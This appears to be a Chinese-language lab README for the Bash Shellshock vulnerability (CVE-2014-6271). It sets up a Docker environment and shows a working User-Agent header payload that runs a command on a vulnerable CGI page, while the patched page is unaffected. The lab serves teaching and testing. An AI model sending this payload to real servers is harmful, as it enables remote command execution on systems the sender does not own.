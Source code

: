 # Bash Shellshock 破壳漏洞（CVE-2014-6271）

编译运行：

```
docker-compose up -d
```

服务启动后，有两个页面`http://your-ip:8080/victim.cgi`和`http://your-ip:8080/safe.cgi`。其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面。

将payload附在User-Agent中访问victim.cgi：

```
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
```

命令成功被执行：

![](1.png)

同样的数据包访问safe.cgi，不受影响：

![](2.png)
